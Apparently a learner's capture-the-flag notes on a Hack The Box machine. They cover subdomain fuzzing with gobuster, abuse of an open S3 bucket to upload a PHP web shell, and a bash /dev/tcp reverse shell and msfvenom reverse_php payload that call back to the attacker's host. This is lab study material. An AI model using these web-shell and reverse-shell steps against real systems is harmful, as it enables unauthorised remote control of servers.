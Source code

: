
Im learning about how to fuzz dns..  I found one in the email on the contact form ... with 

this is the way to found dns with ffuf
```
ffuf -c -w /home/cds/Downloads/subdomains-top1million-20000.txt -u http://thetoppers.htb -H "Host:FUZZ.thetoppers.htb"
```
but the output is extremely long..

I was falling with gobuster because i need to use VHOST when the machine is in the same net, or virutal net.. is my virtual host...


I can fuzz with gobuster but im not able to do it well.. i dont know why.. im going to sleep right now ... we'll see tomorrow 
```
gobuster vhost -u http://thetoppers.htb -w /home/cds/Downloads/subdomains-top1million-5000.txt -t 100 
```



Ok, its a new day, the fact was that I need to put just --apend domain on gobuster

```
gobuster vhost --append-domain -w /home/cds/Downloads/subdomains-top1million-5000.txt -u http://thetoppers.htb -t 100 
```

Ok, now will not see the errors with :

```
gobuster vhost --append-domain -w /home/cds/Downloads/subdomains-top1million-5000.txt -u http://thetoppers.htb -t 100 --no-error 
```

Gobuster found this two sub domains
```
Found: s3.thetoppers.htb Status: 502 [Size: 424]
Found: gc._msdcs.thetoppers.htb Status: 400 [Size: 306]
```

# 502 Puerta de enlace no válida

Un Error 502 Bad Gateway indicará que **el servidor recibió una respuesta inválida desde el servidor entrante**. Esto sucederá si el sitio usa un servidor proxy o puerta de enlace. El mensaje de error puede variar según el navegador que utilices y el servidor al que estés intentando acceder.

So, maybe if I put this on the /etc/host I can acces it s3.thetoppers.htb



# 400#

El código de estado 400 (Bad Request) indica que **el servidor no puede o no quiere procesar la solicitud debido a algo que se percibe como un error del cliente** (por ejemplo, una sintaxis de solicitud mal formada, un encuadre de mensaje de solicitud no válido o un enrutamiento de solicitud engañoso).




Ok we just see an object of json {"status":"running"}


# WHAT IS S3 ? #
Amazon S3 o Amazon Simple Storage Service es un servicio ofrecido por Amazon Web Services que proporciona almacenamiento de objetos a través de una interfaz de servicio web. ​ Amazon S3 utiliza la misma infraestructura de almacenamiento escalable que utiliza Amazon.com para ejecutar su red de comercio electrónico.


We will use a tool called _awscli_ to list the S3 objects.

```
sudo apt install awscli -y
```

and now configure the aws and just insert temp in all the fields

```
aws configure
```

THE OPTIMUM OPTION IS PUTTING ALL TOGETHER 

```
sudo apt update && sudo apt install awscli -y aws configure
```


![[Screenshot_2023-08-31_11_33_03.png]]

Now we will listen the items on the cloud bucket with this 

```
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
```
s3 ls lists all the files on thetoppers.htb


Ok, now the idea is that , as we can see , behind of thee website the toopers we are watching that there is working an apache server, and the amazon cloud, and other technologies. Generally on the apache servers runs with php, and on the cloud we see a index.php, so if we can put a file that can do remote commands to us from the url we can have a reverse shell.


```
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

now, if we want to put this file, we must use

```
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
```

so, we did it because we recive this

```
upload: ./shell.php to s3://thetoppers.htb/shell.php
```

we can execute things on this place

```
http://thetoppers.htb/shell.php?cmd=whoami
```
response
```
www-data
```

ok im going to try to get a reverse shell and explore on the machine.

```
http://thetoppers.htb/shell.php?cmd=bash -c "bash -i >%26 /dev/tcp/10.10.14.57/443 0>%261"
```

I did it, i get the flag, but another guy did it on this way :
-------------------------------------------------------------------------



Successfully executed the `ls` command, because were able to list the contents of the directory.


with burpsuit


Captured the request with Burp Suite and sent it to the Repeater tab. Navigated back one directory and listed the contents with the command: `ls+../`

The root flag can be found in the file flag.txt. The content of the file flag.txt can be read with the command: `cat+../flag.txt`

![[Screenshot_2023-08-31_12_24_18.png]]


And another one was a reverse shell with msfvenom

He generated all automatically with venom...
```
msfvenom -p php/reverse_php LHOST=10.10.14.76 LPORT=443 -f raw -o reverse.php
```
and then 

he put it on the cloud 

```
aws --endpoint=http://s3.thetoppers.htb s3 cp reverse.php s3://thetoppers.htb
```

he listen on the port 443 

```
nc -lvnp 443
```

and with curl (not the navigator) he called the reverse shell

```
curl http://thetoppers.htb/reverse.php
```
